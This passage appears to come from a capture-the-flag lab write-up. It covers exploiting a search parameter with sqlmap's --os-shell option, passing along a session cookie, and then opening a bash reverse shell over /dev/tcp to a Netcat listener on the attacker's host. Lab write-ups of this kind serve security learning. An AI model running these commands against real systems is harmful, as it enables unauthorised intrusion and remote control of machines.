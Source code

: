 ***

* To make sure, I tried looking at the petition sent when I used the search engine, using [_FoxyProxy_ ](../../web-exploitation/tools-and-utilities.md#foxyproxy)and [_Burpsuite_](../../web-exploitation/tools-and-utilities.md#burp-suite). By surprise, I found a session cookie was being sent, so I needed to specify this to _sqlmap_ to work properly. After doing this and retrying the attack I successfully got a shell from the system as the database user

{% code overflow="wrap" lineNumbers="true" %}
```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=a' --os-shell --cookie "PHPSESSID=7c81be8esvtsdivfi47afasnoq"
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (474).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (475).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (476).png" alt=""><figcaption></figcaption></figure>

***

* As the shell given by _sqlmap_ is limited, I tried gaining a Reverse Shell to my machine through the _os-shell_, setting a [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener, and sending the connection to the specified port. It worked properly, and after catching the connection, I sanitized the terminal to interact better with it

{% code overflow="wrap" lineNumbers="true" %}
```bash
# On our terminal
nc -nvlp 4444

# On the os-shell
bash -c "bash -i >& /dev/tcp/10.10.14.117/4444 0>&1
```
{% endcode %}
